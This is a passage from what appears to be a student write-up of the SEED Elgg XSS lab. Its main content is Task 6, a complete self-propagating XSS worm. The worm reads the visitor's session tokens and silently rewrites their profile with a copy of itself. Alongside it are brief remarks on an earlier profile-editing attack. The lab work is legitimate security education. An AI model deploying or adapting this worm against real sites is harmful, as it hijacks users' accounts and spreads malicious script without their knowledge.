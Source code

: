## result
We can see that bob's profile is indeed changed to `samy is the best`
![profile attack success](./attachments/profile-edit-success.png)

## Question3
This line is to prevent samy's about me page being changed when samy visit his own profile and render the attack useless.

# Task 6: Writing a self-propagating XSS Worm

Add the follow code to samy's profile
```javascript
<script id="worm">
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML; 
  var tailTag = "</" + "script>";
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

  window.onload = function(){
    var userName="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the content of your url.
    var content= "description="+wormCode+guid+ts+token; 
    var sendurl="/action/profile/edit" 
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");
    Ajax.send(content);
  }
</script>
```

When boby visits samy's profile, we can see that a edit profile request is made without bob's notice and change bob's description to the script